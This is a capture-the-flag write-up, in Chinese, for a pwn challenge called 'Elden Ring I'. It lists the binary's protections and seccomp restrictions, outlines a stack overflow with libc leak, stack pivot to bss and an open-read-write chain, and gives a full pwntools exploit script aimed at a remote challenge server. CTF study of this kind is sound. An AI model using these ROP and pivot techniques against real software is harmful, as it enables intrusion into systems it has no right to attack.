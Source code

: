 # Elden Ring I

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules

<img src="assets/hgame1seccomp.png" height="60%" width="60%">

## 解题思路

~~先看6秒落叶~~

进入`vuln`函数栈溢出，但是只有5*8字节，同时禁用了execve，只能打orw，
但是orw又需要大量的空间，因此可以先后泄露libc，栈迁移，在bss上打orw就会方便的多，
还可以方便放置"./flag"

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering')
        libc = ELF('/usr/lib/libc.so.6')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('47.100.137.175', 32297)
        libc = ELF('./libc.so.6')
    elf = ELF('eldering')
    putsPlt = elf.plt['puts']
    putsGot = elf.got['puts']
    readPlt = elf.symbols['read']
    vulnAddr = elf.symbols['vuln']
    popRdiAddr = 0x4013e3
    bssHigh = 0x404800
    bssStore = 0x404a00
    gadgets = ROP(libc)

    # payload 1, leak libc addr
    sh.recvuntil(b'accord.\n\n')
    sh.sendline(b'0'*0x108 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))
    print('payload 1 sent')

    putsGotAddr = u64(sh.recvline()[:6] + b'\0\0')
    libcBase = putsGotAddr - libc.symbols['puts']
    openAddr = libcBase + libc.symbols['open']
    writeAddr = libcBase + libc.symbols['write']
    popRsiAddr = libcBase + gadgets.rsi.address
    popRdxAddr = libcBase + gadgets.rdx.address

    # payload 2, stack pivot to bss
    sh.recvuntil(b'accord.\n\n')
    leaveRet = 0x401290
    sh.sendline(b'0'*0x100 + p64(bssHigh) + p64(popRsiAddr) + p64(bssHigh) + p64(readPlt) + p64(leaveRet))
    print('payload 2 sent')
    sleep(0.5) # in case payload is concated

    # payload 3, do orw in bss
    sh.sendline(b'./flag\0\0' + p64(popRdiAddr) + p64(bssHigh) + p64(popRsiAddr) + p64(0) + p64(openAddr) +
                p64(popRdiAddr) + p64(3) + p64(popRsiAddr) + p64(bssStore) + p64(popRdxAddr) + p64(0x50) + p64(readPlt) +
                p64(popRdiAddr) + p64(bssStore) + p64(putsPlt))
    print('payload 3 sent')

    sh.interactive()
```

